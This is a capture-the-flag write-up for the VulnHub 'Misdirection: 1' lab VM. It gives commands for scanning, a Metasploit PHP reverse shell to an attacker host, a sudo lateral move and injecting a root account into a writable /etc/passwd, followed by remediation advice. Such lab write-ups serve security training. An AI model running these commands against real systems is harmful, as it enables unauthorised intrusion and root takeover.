





# Misdirection: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.106 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/misdirection-1,371/) |

## Attack Summary

`nmap` → port 8080 Apache → `dirb` finds `/debug` virtual shell → MSF web_delivery PHP payload → `www-data` → `sudo -u brexit` → writable `/etc/passwd` → inject UID-0 user → root

## Methodology

1. Network discovery
2. Multi-port scan — identify port 8080 as the real target (port 80 is misdirection)
3. Directory brute-force — find `/debug` virtual shell
4. Metasploit web_delivery → Meterpreter shell
5. sudo lateral move to `brexit`
6. Writable `/etc/passwd` → inject root user

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.106
```

Open ports: **22 (SSH)**, **80 (Rocket httpd)**, **3306 (MySQL)**, **8080 (Apache)**

Port 80 is intentional misdirection — the real entry point is port 8080.



---

## Step 2: Directory Brute-force on Port 8080

```bash
dirb http://192.168.1.106:8080/
```

Finds: `/debug` (virtual shell), `/wordpress` (rabbit hole), `/shell`

The `/debug` endpoint exposes an interactive PHP shell in the browser.



---

## Step 3: Reverse Shell via web_delivery

Generate and deliver a PHP payload using Metasploit's web_delivery module:

```bash
use exploit/multi/script/web_delivery
set TARGET 1
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.105
set LPORT 4444
exploit
```

Copy the generated PHP one-liner into the `/debug` virtual shell to receive a Meterpreter session.



---

## Step 4: Lateral Move to `brexit` via sudo

```bash
sessions 1
shell
python -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
# www-data may run: /bin/bash as brexit (NOPASSWD)
sudo -u brexit /bin/bash
id
# uid=1000(brexit)
```

---

## Step 5: Writable /etc/passwd

```bash
ls -la /etc/passwd
# -rw-rw-r-- 1 root brexit ...
```

`/etc/passwd` is group-writable and `brexit` owns the write group. Generate a password hash and inject a root-level user:

```bash
openssl passwd -1 -salt user3 pass123
# $1$user3$rAGRVf5p2jYTqtqOW5cPu/

echo 'raj:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash' >> /etc/passwd
tail /etc/passwd
```



---

## Step 6: Root

```bash
su raj
# password: pass123
id
# uid=0(root)
cd /root
cat root.txt
```



---

## Lessons Learned

1. **Multi-port scanning** is essential — services on non-standard ports are often the real attack surface
2. **Virtual debug shells** (`/debug`, `/shell`) left in production allow arbitrary code execution
3. **sudo -u lateral moves** can chain privilege from `www-data` to higher-privilege users
4. **Writable /etc/passwd** allows direct injection of root-level accounts
5. **The VM name is the hint** — "Misdirection" signals that obvious services (port 80) are decoys

## Remediation

| Vulnerability | Fix |
|---|---|
| Debug/shell endpoints in production | Remove development tools before deployment |
| sudo NOPASSWD lateral movement | Audit `/etc/sudoers`; require password for all lateral moves |
| Writable /etc/passwd | Set permissions `644` owned by root:root; use `/etc/shadow` for passwords |
| PHP RCE via web upload | Disable PHP execution in upload directories; use CSP |
